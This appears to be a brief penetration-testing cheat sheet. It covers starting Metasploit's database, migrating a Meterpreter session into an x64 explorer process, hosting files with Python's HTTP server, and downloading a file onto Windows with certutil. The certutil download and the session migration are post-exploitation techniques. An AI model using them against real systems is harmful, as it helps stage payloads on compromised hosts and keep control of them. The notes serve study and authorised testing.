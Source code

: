 # Metasploit start
```
Start the postgresql service before using metasploit
service postgresql start
```

# X86 Meterpreter session
```
If in sysinfo meterpreter command output, showa x86 meterpreter, migrate to x64 proccess is the system is x64
> pgrep explorer 
> migrate PID
```

# HTTP server
```
python -m SimpleHTTPServer 80
```

# CMD file download
```
certutil -urlcache -f URL/FILE DESTINATION_FILE
```